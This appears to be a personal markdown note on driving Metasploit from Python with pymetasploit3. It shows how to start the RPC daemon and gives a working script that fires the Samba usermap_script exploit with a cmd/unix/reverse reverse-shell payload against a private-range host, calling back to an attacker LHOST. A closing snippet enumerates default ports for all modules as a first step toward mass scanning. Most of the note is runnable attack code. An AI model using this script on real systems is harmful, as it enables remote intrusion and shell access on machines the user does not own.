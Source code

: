 ```yaml
---
title: Metasploit scripting and more
created: '2024-03-31T04:25:36.000Z'
modified: '2024-05-30T05:51:04.019Z'
---
```


# Metasploit scripting and more

https://www.infosecmatter.com/metasploit-module-library/

---

[mad-metasploit](https://github.com/hahwul/mad-metasploit) custom metasploit scripts

---

[metasploit unleashed](https://www.offsec.com/metasploit-unleashed/)

[official metasploit documentation](https://docs.metasploit.com/)

---

metasploit has enabled ssl by default. http will not work.

install package:

```bash
pip3 install pymetasploit3
```

launch metasploit background rpc service:
```bash
# get help
msfrpcd -h
# start background service
msfrpcd -P lazero
# or if you want foreground service
msfrpcd -P lazero -f
```


run script:

```python
from pymetasploit3.msfrpc import MsfRpcClient
import os

PWD = "lazero"

custom_module_path = "custom_msf_module"
assert os.path.exists(custom_module_path), (
    "Custom module path not found at: '%s'" % custom_module_path
)

# write custom python modules with:
# https://docs.metasploit.com/docs/development/developing-modules/external-modules/writing-external-python-modules.html


client = MsfRpcClient(
    password=PWD, ssl=True
)  # requires ssl by default. otherwise won't work

# the module structure must be identical to the one at , otherwise it will not load.
client.core.addmodulepath(os.path.abspath(custom_module_path))

exploit_id = "multi/samba/usermap_script"
exp_mod = client.modules.use("exploit", exploit_id)

RHOST = "172.16.194.172"
LHOST = "172.16.194.163"

exp_mod.runoptions["RHOST"] = RHOST  # this host is not running.
exp_mod.runoptions["PAYLOAD"] = "cmd/unix/reverse"
exp_mod.runoptions["LHOST"] = LHOST

msf_console = (
    client.consoles.console()
)  # you can manually read/write instead of using below method.
# timeout: 301 seconds.
exploit_run_output = msf_console.run_module_with_output(exp_mod)  # str
print(exploit_run_output)  # now have output. but still it is not streaming.
# you may want to overwrite the original implementation. the data is actually produced step by step.

run_output_file = "samba_usermap_script_output.log"
with open(run_output_file, "w+") as f:
    f.write(exploit_run_output)
print("[metasploit]", "output file saved at:", run_output_file)
# thank you very much.

```

---

To do mass scanning, first we need to obtain the default RPORT for each exploit.

```python
module_types = ['exploits','auxiliary', "encoders", "nops", "payloads", 'post']

for mt_plural in module_types:
    module_type = mt_plural.rstrip('s')
    for name in all_module_names:
        mod = client.modules.use(module_type, name)
        # get default RPORT
        default_rport = mod.runoptions.get("RPORT", None)
```
